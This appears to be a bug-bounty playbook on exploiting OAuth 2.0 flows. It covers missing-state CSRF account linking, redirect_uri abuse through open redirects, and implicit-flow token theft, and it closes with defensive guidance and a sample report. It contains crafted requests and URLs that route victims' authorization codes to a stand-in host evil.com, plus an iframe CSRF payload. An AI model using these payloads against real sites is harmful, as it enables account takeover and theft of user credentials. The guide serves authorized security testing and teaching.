

# OAuth 2.0 Flow Exploitation

## When to Use
- When evaluating Single Sign-On (SSO) integrations that allow users to register or log into the application using a third-party Identity Provider (IdP) like Google, Microsoft, or Apple.
- When you intercept a `/authorize` endpoint containing parameters like `client_id`, `redirect_uri`, `response_type=code`, and `state`.
- To establish full Account Takeover (ATO) by linking an attacker's social account to a victim's primary profile.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying the Authorization Request

```http
# Concept: OAuth relies on bouncing the user between the Client app and the IdP app.
# The security of this entire sequence relies heavily on perfectly implemented parameters.

# 1. Intercept the classic OAuth "Sign in with..." click:
GET /oauth/authorize?client_id=XYZ123&redirect_uri=https://target.com/callback&response_type=code&state=999abc HTTP/1.1
Host: accounts.google.com

# Key Parameters:
# - redirect_uri: Where the IdP sends the user after login.
# - response_type: `code` (secure server flow) or `token` (insecure implicit frontend flow).
# - state: The anti-CSRF token binding the redirect back to the user's specific web browser session.
```

### Phase 2: Missing or Unvalidated the "State" Parameter (Account Takeover / Linking)

```text
# Concept: If an application allows users to link a social account to their profile, 
# and it DOES NOT strictly validate the `state` parameter upon return (CSRF), an attacker can link THEIR 
# social account to the VICTIM'S profile.

# Exploit Steps:
# 1. The attacker creates an account on `target.com` and clicks "Link Google Account".
# 2. The attacker logs into their Google account. 
# 3. Google redirects the attacker BACK to the target application:
#    `https://target.com/callback?code=SECRET_EVIL_CODE&state=`
# 4. **CRUCIAL STEP**: Before the browser loads this URL, the attacker INTERCEPTS and drops the request.
# 5. The attacker constructs a phishing link using that exact URL:
#    `https://target.com/callback?code=SECRET_EVIL_CODE`

# 6. The victim (who is currently logged into target.com) clicks the malicious link.
# 7. `target.com` processes the attacker's `SECRET_EVIL_CODE`.
# 8. Success: The attacker's Google account is now permanently attached to the victim's target.com account. The attacker signs in via Google and hijacks the account.
```

### Phase 3: Exploiting the `redirect_uri` (Authorization Code Theft)

```text
# Concept: The IdP (Google) sends the highly sensitive Authorization Code back to the Client (target.com) 
# via the `redirect_uri`. If an attacker can manipulate this URI, they steal the code and the account.

# 1. Open Redirect Flaw Validation:
# Find an Open Redirect on the Client app (e.g., `https://target.com/login?next=//evil.com`).

# 2. Parameter Injection:
GET /authorize?client_id=XYZ123&redirect_uri=https://target.com/login%3fnext=https://evil.com&response_type=code HTTP/1.1
Host: oauth.company.com

# 3. What happens:
# 1. The victim clicks the attacker's manipulated setup link.
# 2. The IdP authenticates the victim and redirects them to the manipulated URI:
#    `https://target.com/login?next=https://evil.com&code=VICTIMS_SECRET_CODE`
# 3. The open redirect executes! The victim is bounced to `https://evil.com/?code=VICTIMS_SECRET_CODE`
# 4. The attacker's server logs the victim's code. The attacker uses it to log into target.com.
```

### Phase 4: Implicit Flow (Access Token Leakage)

```text
# Concept: Older applications use `response_type=token`. This causes the IdP to send the actual 
# access token directly to the browser URL (e.g., `#access_token=123`).

# Exploit: If the attacker exploits XSS on the target domain, they can steal the `#access_token`
# from `window.location.hash` and assume the victim's identity instantly, bypassing backend 
# secret validation entirely.
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Intercept /authorize request] --> B{Is `response_type=code` or `token`?}
    B -->|token (Implicit)| C[High Risk: Token exposed in frontend URL. Look for XSS.]
    B -->|code (Standard)| D{Is `state` parameter present and validated?}
    D -->|No/Ignored| E[Exploit CSRF Account Linking to achieve ATO]
    D -->|Yes| F{Can `redirect_uri` be manipulated?}
    F -->|Yes| G[Send Open Redirect payload to steal Victim's Code]
    F -->|No| H[Secure Configuration. Proceed to test other features.]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Strict Redirect URI Whitelisting**: The Identity Provider (IdP) administration dashboard must enforce an absolute, non-regex, character-for-character whitelist for the `redirect_uri`.
  - VULNERABLE: `https://target.com/*`
  - SECURE: `https://target.com/oauth/callback`
- **Mandatory State Validation**: Require the usage of strong, cryptographically secure `state` tokens. The client application must store this token in the user's secure session BEFORE initiating the OAuth flow, and assert it perfectly matches when the user returns to the `/callback` URL. This definitively defeats login/linking CSRF.
- **Deprecate Implicit Flow**: The `response_type=token` flow is officially deprecated by the IETF OAuth working group. Modern Single Page Applications should use the Authorization Code Flow with PKCE (Proof Key for Code Exchange).

## Key Concepts
| Concept | Description |
|---------|-------------|
| OAuth 2.0 | An industry-standard protocol for authorization focusing heavily on granting specific, scoped access (not identity natively, though often abused for it) |
| OpenID Connect (OIDC) | A modern identity layer built linearly on top of the OAuth 2.0 protocol, dealing specifically in who the user is (Authentication) |
| Authorization Code | A temporary, single-use token sent by the IdP to the Client, which the Client exchanges via an invisible backend POST request for the final Access Token |
| State Parameter | An opaque value used to maintain state between the request and callback, primarily serving as an Anti-CSRF token |

## Output Format
```
Bug Bounty Report: Account Takeover via OAuth Account Linking CSRF
==================================================================
Vulnerability: Cross-Site Request Forgery (CSRF) in OAuth flow
Severity: Critical (CVSS 8.8)
Target: GET /oauth/google/callback

Description:
The application allows authenticated users to link their Google account for future Single Sign-On processing. However, the initial request sent to `accounts.google.com/o/oauth2/v2/auth` omits the `state` parameter. Consequently, the `/oauth/google/callback` endpoint performed by the application lacks mechanism to verify whether the returning user actually initiated the linking process.

Reproduction Steps:
1. Attacker signs into a newly provisioned attacker account on `target.com`.
2. Attacker initiates the "Link to Google" flow and logs into their Google account.
3. Upon returning to `target.com/oauth/google/callback?code=ATTACKER_CODE`, the attacker intercepts and suspends the redirect.
4. The attacker generates an iframe payload containing the intercepted URL:
   `<iframe src="https://target.com/oauth/google/callback?code=ATTACKER_CODE">`
5. A victim logs into their legitimate account on `target.com` and subsequently visits the attacker's HTML payload.
6. The victim's browser executes the callback URL while authenticated. 
7. The application binds the attacker's Google ID to the victim's account.
8. The attacker logs out, clicks "Sign in with Google", and successfully achieves Account Takeover of the victim's profile.

Impact:
Full Account Takeover (ATO) requiring minor victim interaction.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (OAuth)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Major programs** | $5K-$15K | (Various) | Open redirect → OAuth token theft → Account Takeover | 2023-2025 |

**Key Lesson**: OAuth bugs consistently pay $5K-$15K because they enable Account Takeover.
The attack pattern is always the same: find open redirect → abuse it in OAuth flow → steal 
authorization code or access token.

**The redirect_uri attack that always works:**
```
# Step 1: Find open redirect on target
https://target.com/redirect?url=https://evil.com

# Step 2: Abuse it in OAuth flow
https://accounts.google.com/o/oauth2/auth?
  client_id=TARGET_CLIENT_ID&
  redirect_uri=https://target.com/redirect%3Furl%3Dhttps://evil.com&
  response_type=code&
  scope=openid+email

# Step 3: User clicks → auth code sent to evil.com via redirect chain
# Step 4: Exchange code for access token → full account takeover
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [OAuth 2.0 authentication vulnerabilities](https://portswigger.net/web-security/oauth)
- IETF RFC 6749: [The OAuth 2.0 Authorization Framework](https://datatracker.ietf.org/doc/html/rfc6749)
- HackTricks: [OAuth to Account Takeover](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)
